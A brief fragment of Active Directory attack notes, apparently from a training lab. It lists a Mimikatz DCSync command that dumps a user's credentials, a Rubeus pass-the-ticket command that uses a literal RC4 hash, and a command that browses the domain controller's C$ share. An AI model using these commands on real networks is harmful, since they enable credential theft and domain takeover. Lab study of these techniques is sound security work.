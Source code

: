 `Mimikatz`
```cmd.exe
lsadump::dcsync /user:sarah.lafferty
```

#### Using an account's hash (e.g., Sarah's rc4) to request a TGT for the DC
```PowerShell
.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt
```

#### Using Sarah's ticket to get access to DC
```PowerShell
dir \\dc01.inlanefreight.local\c$
```


